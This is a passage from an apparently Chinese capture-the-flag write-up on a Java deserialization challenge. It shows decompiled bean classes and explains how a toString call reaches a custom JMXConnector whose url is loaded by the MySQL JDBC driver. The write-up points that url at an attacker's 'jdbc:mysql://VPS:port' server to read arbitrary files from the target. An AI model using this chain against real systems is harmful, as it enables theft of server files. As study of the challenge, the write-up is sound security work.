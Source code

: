 ```java
    }

    public Object getUrl() {
        return this.url;
    }

    public void setUrl(Object url) {
        this.url = url;
    }
}

```

上面说了`com.example.demo.bean.MyBean#toString`会触发`JMXConnector#connect`, 而题目自定义的类`com.example.demo.bean.Connect`就是`JMXConnector`的实现类, 里面也有`connect`函数, 这个函数会使用`com.mysql.jdbc.Driver`加载类内的url, 这里就是重点了, 这个加载我们将其设为`jdbc:mysql://VPS:port/databaseName`, 这时候就可以通过连接我们的恶意Mysql服务进行任意文件读取了

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.example.demo.bean;

import java.io.IOException;
import java.io.Serializable;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.util.Map;
import javax.management.ListenerNotFoundException;
import javax.management.MBeanServerConnection;
import javax.management.NotificationFilter;
import javax.management.NotificationListener;
import javax.management.remote.JMXConnector;
import javax.security.auth.Subject;

public class Connect implements JMXConnector, Serializable {
    private String url;
    private String name;
    private String password;

    public Connect(String url, String name, String password) {
        this.url = url;
        this.name = name;
        this.password = password;
    }

    public String getUrl() {
        return this.url;
    }

    public void setUrl(String url) {
        this.url = url;
    }

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

```